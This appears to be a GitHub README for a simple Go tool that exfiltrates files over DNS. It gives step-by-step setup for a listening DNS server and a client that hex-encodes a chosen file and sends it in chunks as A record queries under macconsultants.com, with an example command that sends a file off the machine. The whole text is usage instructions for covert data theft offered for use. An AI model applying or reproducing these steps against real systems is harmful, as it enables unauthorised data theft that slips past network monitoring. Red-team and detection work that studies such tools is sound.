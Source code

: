 This is a very basic file exfiltration tool that uses DNS A and AAAA records to exfiltrate files. The client sends the specified file as both A and AAAA requests, and currently the server responds just to A record requests with a bogus IP response.

How it Works:
1. build the server and start it (sudo ./<binname>)
2. The dns server will then listen for incoming DNS connections
3. The dns server will resolve any request it gets to 10.10.10.10
4. Change the dns server IP in the client code from 127.0.0.1 to whatever IP you are using and then build and run the client and feed it a single parameter which is the path to the file you want to exfil. Example:

./go-dnsclient ~/Desktop/importantfile.txt

5. the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com
6. Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.
7. The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.
8. You will need to rename the outfile if you want to send multiple files, since the server will overwrite it


